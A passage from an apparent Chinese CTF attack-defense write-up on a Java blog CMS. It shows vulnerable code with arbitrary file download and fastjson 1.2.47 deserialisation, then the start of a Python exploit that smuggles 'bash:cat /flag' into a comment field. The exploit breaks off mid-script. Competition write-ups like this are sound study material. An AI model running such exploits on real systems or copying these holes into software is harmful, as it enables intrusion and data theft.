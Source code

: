 修也好修, 直接 return 就行

然后还有任意文件下载

```java
@GetMapping({"download"})
public ResponseEntity download(HttpServletRequest request, String fileName) throws IOException {
  File file = new File("/opt/design_cms/uploads/" + fileName);
  if (!file.exists())
    return ResponseEntity.ok("File Not Exists!"); 
  InputStreamResource resource = new InputStreamResource(Files.newInputStream(file.toPath(), new java.nio.file.OpenOption[0]));
  return ResultUtil.success(file, resource);
}
```

*这个当时比赛的时候没修好, 因为直接拿反编译出来的源码再编译好像有点问题, 然后手动写的话看着 BlogApiController import 了一堆其它 class 比较头大...*

*写这篇 writeup 的时候才反应过来可以直接改 ResultUtil, 还更简单...*

最后是 fastjson 1.2.47

```java
@GetMapping({"/blog/search"})
public String search(HttpServletRequest request, Model model, String search) {
  JSONObject article = null;
  try {
    article = JSONObject.parseObject(search);
  } catch (Exception e) {
    e.printStackTrace();
  } 
  System.out.println(article);
  List<BizArticle> articleList = this.bizArticleService.searchList(article.getString("title"));
  if (articleList == null)
    throw new ArticleNotFoundException(); 
  try {
    model.addAttribute("pageUrl", article.getString("pageUrl"));
    model.addAttribute("articleList", articleList);
  } catch (Exception e) {
    e.printStackTrace();
  } 
  String name = this.bizThemeService.selectCurrent().getName();
  return "theme/" + name + "/search";
}
```

*同样没修好, 当时不知道咋回事脑抽了以为不出网死活不想打 JNDI, 一直在想能不能打 BCEL 然后 payload 调了半天没打通 (*

exp

```python
def attack(target):

    try:
        cmd = 'cat /flag'
        print('attack', target)
        s = requests.Session()

        s.post(target + '/blog/api/comments', data={
            'sid': -1,
            'nickname': 'bash:cat /flag',
            'email': 'asd@qq.com',
            'content': '<p>sadasd</p>'
        })

        res = s.post(target + '/blog/api/comments', data={
        'sid': -1,
        'pageNumber': 1,
        'pageSize': 10,
```